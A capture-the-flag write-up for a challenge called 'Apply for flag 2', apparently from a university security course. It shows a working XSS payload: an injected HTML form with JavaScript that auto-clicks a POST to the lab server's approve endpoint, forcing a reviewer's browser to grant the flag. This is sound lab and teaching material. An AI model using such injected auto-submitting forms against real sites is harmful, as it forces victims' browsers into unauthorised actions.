 ## Apply for flag 2

When we open the site we are presented with our `id` for every request needed and there's a input box with a submit button.

Once we submit any text we're redireted to another page. There's a link to a `page` and when clicked it fowards us to another page with two buttons `Give the flag` and `Mark request as read`.
- To activate the `Give the flag` button we need to send a form by post with our `id` to the link that the existing button already sends ("http://ctf-fsi.fe.up.pt:5005/request/" + id + "/approve").
- As this button is disable we need to make a script to click it, so this is the form and script we will submit on the first page where there is an input box:
```<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/8faa3db714efe9a28f9d38ff65cb2afb58bc10bc/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.getElementById('giveflag').click();  
</script>```

